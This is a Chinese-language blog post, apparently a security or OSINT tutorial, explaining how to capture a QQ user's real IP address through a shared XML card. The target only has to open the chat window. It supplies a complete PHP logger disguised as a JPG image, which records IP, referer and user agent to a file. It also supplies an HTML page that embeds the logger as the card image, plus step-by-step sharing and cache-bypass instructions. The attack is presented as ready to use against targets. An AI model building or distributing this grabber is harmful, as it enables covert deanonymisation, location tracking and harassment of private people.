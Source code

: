 ```yaml
---
title: 利用QQ XML卡片获取真实IP
date: 2024-11-11 13:44:24
categories: [技术, 安全, 开源情报]
tags: [PHP]
---
```

**前言：**QQ提供了一个卡片功能：在QQ内打开一个网页后，点右上角分享可以把此网页分享到任意群聊或好友。这种分享和直接发链接的区别是，对方在聊天框看到的不是链接文本，而是一张包含了网站缩略图、站点标题和摘要的xml卡片。分享后，对方一旦点开聊天窗口窥屏，这个卡片（还有它身上的图片）就会被显示出来，等于此人访问了站点上的一张图片。基于此原理，我们有希望在对方完全不点击链接的情况下获取对方IP地址。

## 目录

1. [攻击环境搭建](#攻击环境搭建)
2. [攻击方法](#攻击方法)
3. [Q&A](#qa)

## 一、攻击环境搭建

这里使用的攻击环境如下：

* **Ubuntu** 22.04 **VPS**
* **Apache** 2.4.52 (Ubuntu)
* **PHP** 8.1.2-1ubuntu2.18

为了创建一张QQ卡片，我们需要一个http网站来存放攻击脚本。方便起见，这里假设你已经有了一个配置好的Apache网页服务器。

首先在网站的根目录内创建攻击脚本iptest.php如下：

PHP

```
<?php 

    //防注入函数
    function filter_dangerous_words($str){
        $str = str_replace("'", "‘", $str);
        $str = str_replace("\"", "“", $str);
        $str = str_replace("<", "《", $str);
        $str = str_replace(">", "》", $str);
        return $str;
    }
    
    //获取真实IP函数
    function getIP() {
        if (getenv('HTTP_CLIENT_IP')) {
        $ip = getenv('HTTP_CLIENT_IP');
        }
        elseif (getenv('HTTP_X_FORWARDED_FOR')) {
        $ip = getenv('HTTP_X_FORWARDED_FOR');
        }
        elseif (getenv('HTTP_X_FORWARDED')) {
        $ip = getenv('HTTP_X_FORWARDED');
        }
        elseif (getenv('HTTP_FORWARDED_FOR')) {
        $ip = getenv('HTTP_FORWARDED_FOR');
 
        }
        elseif (getenv('HTTP_FORWARDED')) {
        $ip = getenv('HTTP_FORWARDED');
        }
        else {
        $ip = $_SERVER['REMOTE_ADDR'];
        }
        return $ip;
    }
 
    //生成输出内容
    $ip = getIP();
    @$referer = $_SERVER['HTTP_REFERER']."\r\n";
    $ua = $_SERVER['HTTP_USER_AGENT']."\r\r";
    date_default_timezone_set("Asia/Shanghai");
    $date_ = date("Y.m.d,h:i:sa")."\r\n";
    
    //输出为hack.txt文件
    $hack = 'date: '.$date_.'ip:'.$ip."\r\n".'referer: '.$referer.'ua: '.$ua;
    $hack = filter_dangerous_words($hack);
    $op = fopen('hack.txt','a+');
    fwrite($op,$hack);
    fclose($op);
	  
	  //将此php文件伪装为一张jpg图片
	  //这样php返回的图片就会是同目录下的icon.jpg文件。
	$im = imagecreatefromjpeg("icon.jpg");
    header('Content-Type: image/jpeg');
    imagejpeg($im);
    imagedestroy($im);
 ?>
```

然后，为了生成卡片，我们还需要制作一个简单的网页iptest.html（与iptest.php、icon.jpg这两个文件处于同一个目录下），该网页的内容就是卡片上的内容：

HTML

```
<!DOCTYPE html>
<html>
<head>
	<meta itemprop="name" content="XML卡片标题" />
	<meta itemprop="description" content="XML卡片描述" />
	<meta itemprop="image" content="文件路径，本例中为iptest.php?abcdefg" />
	<title>标题</title>
</head>
<body>
</body>
</html>
```

这里需要注意的是，iptest.php文件链接需要在其后带一串无效参数才能正常转换为短链接，此处用了abcdefg。因为qq分享机制的原因，导致直接分享出去的xml卡片会先将图片地址转换为腾讯的图床，所以探测链接不会生效。

在两个文件上传服务器之后，确保再上传一张命名为icon.jpg的图片文件就配置完毕了。

## 二、攻击方法

出于方便，攻击时不采用QQ插件发送方式，而采用直接分享生成的XML卡片。步骤如下：

1. 首先qq内打开iptest.html文件的链接，点击右上角，此时还未选择分享方式，未获取到ip；
2. 然后点击“好友”，到达选择好友界面，此时云端生成xml卡片，iptest.php文件链接被转换为腾讯短链，获取到了短链服务器的ip；
3. 选择好友，确认是否发送，本机预览消息，此时获取到本机ip；
4. 点击发送，聊天记录漫游到服务器，此时获取到腾讯服务器ip；
5. 目标点开聊天记录，自动读取了xml卡片，此时获取到目标ip。

上面说明获取顺序的时候，是按操作顺序写的，实际上获取到的服务器ip记录时间不一定按照你的操作顺序记录。但因为目标是最后一个收到的，所以最后一个基本就是目标ip。不排除特殊情况，需要随机应变。鉴于单次攻击会获取到多个ip，记得每一次探测后删除hack.txt文件或改名，以免下一次使用时搞混。

## 三、Q&A

**Q：**配置好攻击环境后能反复使用，以在hack.txt中记录多个目标ip吗？

**A：**不能。攻击链接是一次性的。

首先是所有的链接都会受到缓存的限制，所以一个iptest.php链接只能对一个目标生效一次，可以通过修改后面的无效参数（刚才的abcdef）来更新缓存。

其次就是某些时候iptest.html文件链接在qq内打开时会存在该页面本身被缓存的情况，导致iptest.php文件链接不会更新，缓存自然不会更新，所以无法成功获取ip，这种情况下hack.txt不会记录ip，所以比较好判断。可以通过更改iptest.html文件名来更新页面的缓存。

